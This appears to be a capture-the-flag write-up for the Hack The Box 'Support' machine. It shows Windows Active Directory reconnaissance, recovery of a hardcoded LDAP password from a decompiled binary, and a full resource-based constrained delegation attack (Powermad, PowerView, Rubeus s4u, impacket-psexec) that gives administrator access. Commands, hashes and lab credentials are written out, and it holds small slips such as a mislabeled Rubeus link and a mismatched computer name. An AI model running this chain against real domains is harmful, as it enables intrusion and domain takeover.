- Machine Name: Support
- OS type: Windows
- Difficulty: Easy


### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Sat Apr 12 05:11:36 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.174
Nmap scan report for 10.10.11.174
Host is up, received echo-reply ttl 127 (0.46s latency).
Scanned at 2025-04-12 05:11:37 EDT for 1094s
Not shown: 65516 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-12 09:27:22Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 19493/tcp): CLEAN (Timeout)
|   Check 2 (port 12235/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 46124/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-04-12T09:28:25
|_  start_date: N/A
|_clock-skew: -40s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 12 05:29:51 2025 -- 1 IP address (1 host up) scanned in 1094.89 seconds

```

## Enumeration

### Port 135/MSRPC

let’s check the if we have access to MSRPC service using rpcclient 



we can login but we don’t have permissions to run commands, not so useful! moving on next service

### Port 389,636/LDAP

let’s check the ldapsearch tool to see if we can run ldap queries without credentials 

```bash
ldapsearch -H ldap://10.10.11.174 -x -s base namingcontexts
```



-x : basic authentication

-s for search scope here base and **namingcontext** will only give output of the DN (Distinguished Name) which we’ll use in next command to perform full search over domain using LDAP

```bash
ldapsearch -H ldap://10.10.11.174 -x -b "DC=support,DC=htb"
```



it says successful bind must be completed to perform the search so we need the credentials

### Port 139,445/SMB

SMB is running on the machine let’s check for the Null session and anonymous login, let’s run the smbclient with options -L and -N

```bash
smbclient -L //10.10.11.174 -N
```



we found non-default share `support-tools` also machine name support suggest we might find something interesting here

```bash
smbclient //10.10.11.174/support-tools -N
```



no listing access to NETLOGON and SYSVOL shares



let’s download the all of the files from support-tools share using 

```bash
prompt off

mget *
```

we found many application but the UserInfo.exe is seems interesting to us however `strings` command disappointed us 😟 no hardcoded passwords in the software, let’s use the DnSpy tool to decompile the exe and look into it’s code

download dnSpy from here → https://github.com/dnSpy/dnSpy/releases/download/v6.1.8/dnSpy-net-win64.zip

before reversing the exe let’s first try to execute it in windows cmd, launch cmd and run executable



it does requires some options (arguments) it is important to note we need to pass this arguments on the dnSpy

let’s try find command 

```bash
UserInfo.exe -v find
```



it says -first or -last argument is required let’s provide -first and run the command 

```bash
UserInfo.exe -v find -first Administrator
```



it shows server is not operational, it’s obivious as my windows machine not able to comunicate with support.htb as it tries to perform ldap query, also if we notice it doesn’t give us the error, there are two possibilities,

1. It didn’t connected to domain so it didn’t give us the error 
2. password is hardcoded in the application’s code that use to query LDAP

now let’s load the UserInfo.exe to dnSpy



```bash
public LdapQuery()
		{
			string password = Protected.getPassword();
			this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
			this.entry.AuthenticationType = AuthenticationTypes.Secure;
			this.ds = new DirectorySearcher(this.entry);
		}
```

we found that the LdapQuery() class perform ldap search also it uses the username `support\ldap` and the password which is stored in Protected Class getpassword(), click on the **getPassword()** it will go to the getPassword() class 

```bash
using System;
using System.Text;

namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}

```

so it contains enc_password (encrypted password) and the key also the code that decrypts the password, now we have 2 ways here to get plaintext password here

1. Write a C# program with above logic and print the plaintext password at the end
2. if you don’t know C# just like me 😂, use breakpoints feature of the dnSpy to get plaintext password

let’s use the 2nd option go to LdapQuery Class from the left pane 



then rightclick on 13th line which passing the ldap query with the password

click on Add Breakpoint



now click on ▶️ start button and specify the arguments we just add in the cmd `-v find -first administrator` 



click OK to start debugging

it will automatically stop at the Breakpoint we’ve just created 



and we got the password bingo!!, so we now know that this software uses the `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz` to perform LDAP query nice!, let’s quickly check if these are the valid creds or not

```bash
netexec smb 10.10.11.174 -u ldap -p nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```



yes it is the valid user, let’s enumerate users using netexec —users option

```bash
netexec ldap 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --users
```



let’s create a users.txt and put all users in it, what about password reuese!



nope.

let’s run bloodhoud-python as we have a valid credentials

```bash
bloodhound-python -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```



we didn’t find anything useful from here, as we now have credentials let’s checkout the ldapsearch again

```bash
ldapsearch -H ldap://10.10.11.174 -b "DC=support,DC=htb" -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' '(objectClass=user)'
```



info field of the user support looks interesting, maybe it is the password for that user?, let’s verify it using netexec

```bash
netexec smb 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```



let’s check if we have winrm access

```bash
netexec winrm 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```



let’s login as support using evil-winrm

```bash
evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```



** i can’t provide you the Bloodhound screenshots, as i’m facing issue in starting bloodhound **

analyzing the bloodhound data  we found that support user has `GenericAll` on the computer object, so we can abuse resource-based constrained delegation

- we’ll add the fake computer to domain, then we’ll act as DC to get TGT for Administrator from KDC, then we can use TGT to impersonate the Administrator user

we need three scripts/tools for this attack:

[Powerview](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1)

[Powermad](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1) and [Rubeus.exe](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1)

let’s upload this three tools using winpeas upload feature







now import the both modules to powershell using `Import-Module` cmdlet



great now let’s create the new machine account under our control

```bash
New-MachineAccount -MachineAccount HackerPC -Password $(ConvertTo-SecureString 'Hacker@123!' -AsPlainText -Force)
```



get the SID of the Computer we’ve just created, and store it to variable

```bash
$hacksid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```



now we successfully created fake computer in the domain, now we need to configure DC to trust this computer to act as the DC (work on behalf of real DC)

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($hacksid))"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc.support.htb | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

now we need to verify if our new ACL has been applied 

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> **$RawBytes = Get-DomainComputer dc.support.htb -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity**
*Evil-WinRM* PS C:\Users\support\Documents> **$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0**
*Evil-WinRM* PS C:\Users\support\Documents> **$Descriptor.DiscretionaryAcl**
```



we can see that AceType AccessAllowed and SecurityIdentifier of Fake Computer mentioned here

next we’ll request the machine account’s NTLM hash using Rubeus.exe

```powershell
.\Rubeus.exe hash /password:Hacker@123! /user:HackerPC /domain:support.htb
```



we need `rc4_hmac` hash

```powershell
.\Rubeus.exe s4u /user:HackerPC$ /rc4:B346BAC70D2B764F171C75A3BE96D648 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```



our ticket is exported in the current session we can check it using 

```powershell
.\Rebeus.exe klist
```



however it is not working, let’s use it from the our kali machine

let’s use this ticket in our kali to get shell first we’ll copy the base64 encoded ticket to our kali machine, remove spaces and new line characters using mousepad or any other text editor then decode the base64 encoded ticket.kirbi and save it to administrator.ccache and then export it to **KRB5CCNAME** env variable and use impacket-psexec to get shell as administrator, let’s see how to do it

first copy the encoded ticket to kali 



copy marked part only and paste it to ticket.kirbi in kali and clear it



after clearing all the unwanted spaces and new lines it will look like above screenshot, then convert it to ccache using `impacket-ticketConverter` to check if it is not corrupted use `base64 -d ticket.kribi` and see if it clears the screen and includes the SPN that we’ve specified in the Rubeus command

```powershell
impacket-ticketConverter ticket administrator.ccache
```



now run following command to export `KRB5CCNAME` which required by the kerberos in linux to authenticate 

```powershell
KRB5CCNAME=administrator.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
```

> ***Make sure you have added support.htb and [dc.support](http://dc.support).htb in /etc/hosts file***
> 

